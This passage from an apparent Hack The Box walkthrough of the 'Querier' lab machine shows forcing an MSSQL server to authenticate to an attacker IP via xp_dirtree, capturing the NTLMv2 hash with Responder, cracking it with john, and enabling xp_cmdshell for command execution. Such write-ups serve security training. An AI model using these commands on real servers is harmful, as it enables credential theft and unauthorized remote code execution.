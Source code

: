 However, we can trigger an SMB connection back to us with `xp_dirtree` and steal the NTLMv2 hash from the server using Responder:

```
SQL> xp_dirtree "\\10.10.14.23\gimmesomehashes"
```

![](/assets/images/htb-writeup-querier/responder.png)

The account is using a weak password that we can crack with the `rockyou.txt` wordlist:

```
# john -w=/usr/share/wordlists/rockyou.txt --fork=4 hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 428905p/s 428905c/s 428905C/s CHIKITITA1
3 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 406211p/s 406211c/s 406211C/s Pippa1862
2 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 421156p/s 421156c/s 421156C/s HIKID25
4 1g 0:00:00:06 DONE (2019-02-17 19:17) 0.1515g/s 339332p/s 339332c/s 339332C/s corporate568
Waiting for 3 children to terminate
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is: `corporate568`

Now we can log in with that the `mssql-svc` account then enable `xp_cmdshell` and get RCE:

```
# /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth querier/mssql-svc@querier.htb
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> EXEC sp_configure 'show advanced options', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "dir c:\users"
output

```